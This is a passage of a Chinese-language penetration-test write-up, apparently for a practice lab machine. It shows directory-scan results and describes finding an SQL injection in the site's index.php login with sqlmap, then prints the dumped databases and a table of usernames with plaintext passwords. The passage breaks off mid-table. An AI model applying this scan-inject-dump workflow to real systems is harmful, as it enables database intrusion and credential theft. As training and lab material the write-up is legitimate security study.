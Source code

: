 ```
/footer               (Status: 200) [Size: 63]
/transfer.php         (Status: 200) [Size: 44]
/transfer             (Status: 200) [Size: 44]
/messageboard.php     (Status: 200) [Size: 249]
/messageboard         (Status: 200) [Size: 249]
/server-status        (Status: 403) [Size: 336]
/calender.php         (Status: 200) [Size: 247]
/calender             (Status: 200) [Size: 247]
/ssp                  (Status: 301) [Size: 356] [--> http://192.168.218.192/ssp/]
/ssp.php              (Status: 200) [Size: 44]
/index.php            (Status: 200) [Size: 776]
/index                (Status: 200) [Size: 776]
Progress: 224656 / 224660 (100.00%)
===============================================================
Finished
===============================================================
```
扫出来很多，除了内容受限就是sql报错。那就看看login.php页面，sqlmap扫了一下似乎注入不了，扒拉了一会，发现要在主页登录  **/index.php?page=login.php** 主页的登录功能有注入漏洞。
>available databases [4]:                                                                                                                                                                            
>[*] clients                                                                                                                                                                                         
>[*] creds                                                                                                                                                                                           
>[*] information_schema                                                                                                                                                                              
>[*] mysql  

扫出来四个库
>Database: clients
>[2 tables]
>+----------+
>| accounts |
>| credits  |
>+----------+

clients库中有两个表，好像没有密码

>Database: creds
[5 tables]
+-------------+
| page        |
| accounts    |
| blogs_table |
| calender    |
| employee    |
>+-------------+


>Database: creds                                                                                                                                                                                     
Table: accounts                                                                                                                                                                                     
[11 entries]                                                                                                                                                                                        
+-----+--------+--------------------+------------+                                                                                                                                                  
| cid | upload | password           | username   |                                                                                                                                                  
+-----+--------+--------------------+------------+                                                                                                                                                  
| 1   | 0      | Ih@cK3dM1cR05oF7   | alamo      |                                                                                                                                                  
| 2   | 1      | P3n7@g0n0wN3d      | etenenbaum |                                                                                                                                                  
| 3   | 1      | d15cL0suR3Pr0J3c7  | gmckinnon  |                                                                                                                                                  
| 4   | 1      | Ik1Ll3dNiN@r315er  | hreiser    |                                                                                                                                                  
| 5   | 1      | p1@yIngW17hPh0n35  | jdraper    |                                                                                                                                                  